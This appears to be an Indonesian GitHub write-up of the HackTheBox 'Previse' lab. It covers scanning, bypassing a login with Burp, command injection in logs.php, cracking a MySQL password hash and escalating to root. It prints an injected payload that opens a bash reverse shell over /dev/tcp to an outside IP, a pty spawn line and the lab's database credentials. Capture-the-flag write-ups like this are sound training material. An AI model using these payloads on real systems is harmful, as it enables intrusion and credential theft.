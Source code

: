 # Hackthebox-Previse-WriteUp
Selamat satang di repository saya, di sini saya akan menuliskan writeup pada machine **Previse**

<p alingn=center><a href="https://app.hackthebox.com/machines/373" target="_blank"><img src="https://miro.medium.com/max/600/0*6X4F86uQ83anl-ZR.png" width="400"></a></p>

Sebelum saya memulai laporan saya saya akan pemperkenalkan kepada anda apa itu penetration testing. Penetration Testing atau disebut juga pentest adalah pengujian keamanan informasi dimana seorang pentester meniru serangan yang biasa sering terjadi untuk mengidentifikasi metode peretasan fitur keamanan aplikasi, sistem, atau jaringan. Pengujian ini dilakukan oleh pentester menggunakan serangan yang nyata, sistem yang nyata, dan data yang nyata menggunakan alat dan teknik yang sering dipakai oleh seorang hacker. Penetration Testing biasanya dilakukan bersamaan dengan Vulnerability Assessment (VA). Vulnerability Assessment adalah sebuah proses untuk mengidentifikasi risiko dan celah kerentanan pada aplikasi, sistem, ataupun jaringan. Sebagian besar pentest mencari kombinasi kerentanan pada satu atau lebih sistem untuk mendapatkan akses lebih dalam pada sistem yang menjadi target dibandingkan dengan hanya mengetahui satu macam kerentanan.

### Scanning Port
---
Di sini saya menggunakan **nmap** untuk scan port yang terbuka untuk public 

![nmap](assets/nmap.png)

setelah melakukan scan port diketahui bahwa terdapat 2 port yang terbuka untuk public, yaitu port 80 dan 22. Port 80 umumnya berfungsi untuk web site dengan http:// dan port 22 berfungsi untuk ssh server.

Setelah saya buka ternyata web tersebut berisi login page

![login page](assets/login.png)

### Bruteforce directory
---
Setelah itu saya melakukan brute force attack pada web menggunakan tool Bernama **dirb** untuk mengetahui apakah terdapat url lain yang dapat dibuka secara langsung tanpa autentikasi

![bruteforce](assets/bruteforce.png)

Dan saya tidak bisa mendapat apa apa kerena langsung ke direct ke login page, namun saya dapat mengetahui direktori yang ada setelah melewati login page.

### SQL Injection
---
Lalu saya mencoba lagi menggunakan sql injection sederhana (sapa tau bisa yakan :v)

![sql injection](assets/sql.png)

**BOOOM!** ndak bisa bro, cari jalan lain :')

### Burp Suite
---
Saya menghidupkan proxy server dan menggunakan burpsuite dan mengaktifkan mode instercept

![burp](assets/burp1.png)

Lalu saya kirim ke repeater dan mengganti request seperti yang ada di gambar dan akun telah terbuat XD

![burp](assets/burp2.png)

### Eksekusi
---
Setelah melewati gerbang pertama (login page) saya menemukan sesuatu yang menarik 

![eksekusi](assets/exec1.png)

Saya mendapat kedua file tersebut dari website dan dari sini maka diketahui m4lwhere adalah pemilik.
Setelah itu saya melihat isi dari folder sitebackup dan menemukan seperti gambar dibawah

![eksekusi](assets/exec2.png)

Di sana saya menemukan exec() function yang mungkin bisa digguakan untuk rce dan mysql server
```
User root
Password mySQL_p@ssw0rd!:)
Database previse
```
>exec() dan eval() merupakan ide yang buruk dalam keamanan

Lalu saya mencoba mengakses logs.php lalu di intercept menggunakan burpsuite dan mengirimkan ke repeater

![eksekusi](assets/exec3.png)

Lalu saya melakukan listen pada port 87 menngunakan payload ini untuk melakukan reverse shell

```
delim=comma%26/bin/bash+-c+'bash+-i+>+/dev/tcp/10.10.14.176/87+0>%261'
```

![eksekusi](assets/exec4.png)

Lalu saya menggunakan payload berikut agar ~~banyak uang~~ (ada symbol $) dan masuk ke mysql server menggunakan username dan password yang tadi 
```python
python -c ‘import pty;pty.spawn(“/bin/bash”)’
```

![eksekusi](assets/exec5.png)

Mantap jiwaaa saya bisa masuk ke mysql server, lalu saya akan mencuri password user m4lwhere

```sql
Select * from accounts;
```
![eksekusi](assets/exec6.png)

Setelah saya mendapat hash passwordnya saya langsung mendecrypt menggunakan ~~john lennon~~ (eh maksud saya john the ripper)

![eksekusi](assets/exec7.png)

Dayummm! Saya mendapatkan passwordnya, saya menghabiskan waktu sangat lama untuk mendapatkan passwordnya :’)

Setelah mendapatkan password karena port 22 terbuka saya mencoba untuk connect ke SSH

![eksekusi](assets/exec8.png)

Di sini saya mendapatkan flag pertama (**user.txt**), Yeayyyy

![eksekusi](assets/exec9.png)

### Privilege Escalation
---
Setelah itu saya menggunakan sudo -l untuk mengetahui pirintah sudo digunakan oleh siapa dan melihat isi file tersebut

![sudo](assets/pe.png)

Setelah itu saya mencoba mereverse shell root ke kali linux saya

![sudo](assets/pe2.png)

Dan saya pun mendapat flag root.txt

![sudo](assets/pe3.png)

# Terimaksih sudah membaca :)
semangat belajarnya bro :')

![gif](https://c.tenor.com/y2JXkY1pXkwAAAAC/cat-computer.gif)
